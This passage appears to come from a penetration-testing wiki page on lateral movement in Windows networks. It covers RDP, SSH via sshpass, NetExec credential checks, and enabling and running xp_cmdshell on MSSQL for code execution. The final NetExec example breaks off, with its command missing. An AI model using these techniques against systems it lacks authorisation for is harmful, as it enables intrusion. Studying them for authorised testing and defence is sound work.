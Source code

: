 Remote Desktop Protocol is used very often by administrators and clients to use their Windows machine and configure it visually. When a user is in the "**Remote Desktop Users**" group, they can use this protocol on port 3389 to connect. There is no CLI-only option for this, only GUI.

_Linux_ has a tool called [Remmina](https://remmina.org/) that you can add hosts to, and connect to via RDP.

_Windows_ has this built-in with "Remote Desktop Connection" (mstsc.exe), which often works better because it is the official client, and supports copy-pasting across machines for example.

{% hint style="info" %}
**Tip**: Getting the domain correct can be a bit finicky, so try using [NetExec](https://github.com/Pennyw0rth/NetExec) with SMB to get it:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ nxc smb $IP -u $USERNAME -p $PASSWORD
</strong>SMB      $IP 445    MS01             [+] $DOMAIN\$USERNAME:$PASSWORD
</code></pre>
{% endhint %}

### SSH (22)

It might sound a bit unusual, but Windows machines can also host OpenSSH servers that allow you to connect via a terminal. These also don't require the user to be in any special group like [#winrm](lateral-movement.md#winrm "mention") or [#rdp](lateral-movement.md#rdp "mention"), so any user can log in with this. It simply requires a username and password:

```bash
sshpass -p $PASSWORD ssh $USERNAME@$IP
```

Shells like these are also very nice to work with, having command history and working arrow keys, as well as fast responses and flawless interactivity with programs you start.&#x20;

### MSSQL (1433)

Microsoft has its own Database and SQL protocol called MSSQL, hosted on SQL Server. You may encounter this in a [sql-injection.md](../web/server-side/sql-injection.md "mention") attack as well, but when inside the network you may also be able to directly authenticate and connect to it.

An interesting exploitable command is `xp_cmdshell` which runs a shell command from an SQL query. Because this is dangerous, this feature first needs to be enabled and then only permitted users can run it. But if you compromise a database administrator with enough privileges, they can enable and abuse this feature to get code execution on the SQL server:

<pre class="language-sql"><code class="lang-sql"># Enable option to enable 'xp_cmdshell' later
<strong>sp_configure 'show advanced options', '1'
</strong><strong>RECONFIGURE
</strong># Enable executing xp_cmdshell
<strong>sp_configure 'xp_cmdshell', '1'
</strong><strong>RECONFIGURE
</strong># Execute a command with xp_cmdshell as a database administrator
<strong>EXEC master..xp_cmdshell 'whoami'
</strong></code></pre>

This process can also be automated using [NetExec](https://github.com/Pennyw0rth/NetExec) which implements this in the `nxc mssql -x` module. By providing an administrator like the SQL service account itself, for example:


[$IP]: PS C:\> whoami